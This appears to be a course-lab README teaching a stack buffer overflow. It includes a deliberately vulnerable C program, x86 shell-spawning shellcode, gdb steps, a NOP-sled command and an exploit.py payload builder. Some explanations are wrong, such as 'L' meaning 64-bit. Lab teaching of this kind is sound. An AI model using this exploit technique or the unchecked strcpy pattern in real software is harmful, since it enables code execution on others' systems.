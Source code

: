 # Buffer Overflows
This is a tutorial of Stack Buffer Overflow attacks. Credit to 'Smashing The Stack For Fun And Profit by Aleph One' 
for a detailed description of how to do this and Manuel Egele megele@bu.edu for creating the challenge 
(specifically providing prog5.c and the template for how to create exploit.py).

Author: Chase Clarke cfclarke@bu.edu


# ---------- prog5.c source ------------------ #

// compile with $ gcc prog5.c -o prog5

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

/*
 *  check the string passed from the command-line and print message accordingly. Vulnerable program
 */

int processInput(char *input)
{		
		char buffer[512];

		strcpy(buffer,input);

		printf("Hello, what is the magic word?: You said %s\n",buffer);

		/* check if the string is equal to the super secret string */

		if (strcmp(buffer,"Please please pretty please!")==0)
		{
				fprintf(stdout,"Woaaaa, you got it!\n");
		}
		else
		{
				fprintf(stdout,"Epic Fail! Epic Fail! Epic Fail! Epic Fail!\n");
		}

		/* great success! */
		return 0;
}

/*
 *   program accepts two parameters, there is a simple buffer overflow...
 */


int main(int argc, char **argv)
{
		/* check arguments */
		if (argc<2)
		{
				fprintf(stdout,"Synopsis: vuln1 <magic word>\n\n");
				exit(1);
		}

		/* process the input */
		processInput(argv[1]);

		return 0;
}
  


# ---------- prog5 stack ------------------ #


Stack after 'processInput' is called but before stack pointer returns to main:


Towards BOTTOM of stack - TOP of memory


	.           .     
	.           .     
	.           .     

	|           |
	|           |
	  ---------       =
	|           |     |
	|           |     |
	  ---------    vars passed into program
	| *input    |     |
	|           |     |
	  ---------       =
	| return    |
	| addr.     |
	  --------- 
	| EBP       |
	|           |
	  ---------       
        | ESP       |     
	|           |     
	  ---------       =
	|           |     |
	|           |     |
	         	local variables
	|           |     |
	| buffer    |     |
	    		  
	.           .     
	.           .     
	.           .     



Towards TOP of stack - BOTTOM of memory




So ===> 512 bytes for buffer, 8 bytes for stack and base pointers, 
	and the final 4 bytes for overwriting the return address 
	to main.


Now that you have an idea of what the stack looks like and where the stored eip pointer (return address to main) 
is stored, you are going to need code that opens a new shell.
A shell script is assembly built to open a new shell encoded so python can print it correctly.

The shell code I used: (source - http://shell-storm.org/shellcode/files/shellcode-811.php)
	
	To make this as simple as possible, I used code from 'shell storm' instead of writing my own.

	* note that this shell code only works on Linux x86 systems. Find your systems code on shell-storm.org *
	* more on shell code: https://en.wikipedia.org/wiki/Shellcode *

	code used:	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2
			\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff



The last bit of information you need to collect is a new return address to replace the stored eip pointer.

You can get this using gdb:
	This is a tricky part because the address on the stack could change at any time if, for instance, any 
	environment variables change or the size of anything in your program changes.


Running gdb without the worry of environment variables:
	
	$ env - gdb prog5                    - clears most env vars. O/w stack cluttered and addresses constantly change

		(gdb) show env               - show remaining environment variables.
 
  		(gdb) unset env VARNAME      - remove one of the remaining set env vars
 
		(gdb) show env               - one last time to ensure all environment variables are removed


Helpful notes for using gdb:
	to run or rerun your program:
		(gdb) r "input_here"

	Set breakpoint:
		(gdb) b *main+offset - example: b *main+78

	delete breakpoint:
		(gdb) delete [breakpoints] [range...]


	print first 500 addresses stored on stack:
		(gdb) x/500xw $esp


	(gdb) info frame         - gives where your instruction pointer is at
	(gdb) info registers     - gives the values contained in all of your registers


Now that you have the program running correctly in gdb, you need to:
	
	Use the above notes to set a breakpoint the instruction before instructionProcess returns.
	
	Look at the stack at that time.
	
	Find an address that points directly back into your nops (no operation instruction in x86 assembly).

	Save that address and use it as your new return address to replace the stored eip pointer.


Taking into account all the above, you will need 524 bytes total. 520 for buffer and stored pointers, 4 for overwriting 
the return address.

But you have one more problem. What do you do with the extra space in the buffer that is not used by your shell code?
Easy, padd it with nops. These are no operation assembly instructions that tell the system to just go to the next line. 
Encoded as '\x90'

So ===>

You can now write a python script that prints out the shell code at the correct size, padded by the nops:

	`python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89
		\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`


you can launch your new shell by running the prog5 executable with the above python script as the input:

	$ prog5 `python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89
		\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`



The process of manually creating these python scripts can be tedious. 
To remedy this you can create a python file (exploit.py) shown below that requires:

	The length in bytes from the start of the buffer to the start of the return address.

	The return address you found with gdb.


// ---------- exploit.py source ------------------ //

#run with prog5 $(python exploit.py)

#!/usr/bin/env python

import sys, struct

#buf_len is the length of your input from the start of the buffer to the begging of the return address.
#ret_addr is the return address that brings you back into your NOPS. This will CHANGE regularly
buf_len = 520
ret_addr = 0xffff4ac0


#payload is the correctly presented shell code.
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"


#combining all the above. '<' means little-endian in the struct.pack and 'L' signifies 64 bit OS.
buf = ('\x90' * (buf_len - len(payload))) + payload + struct.pack('<L', ret_addr)

#writing to the shell
sys.stdout.write(buf)
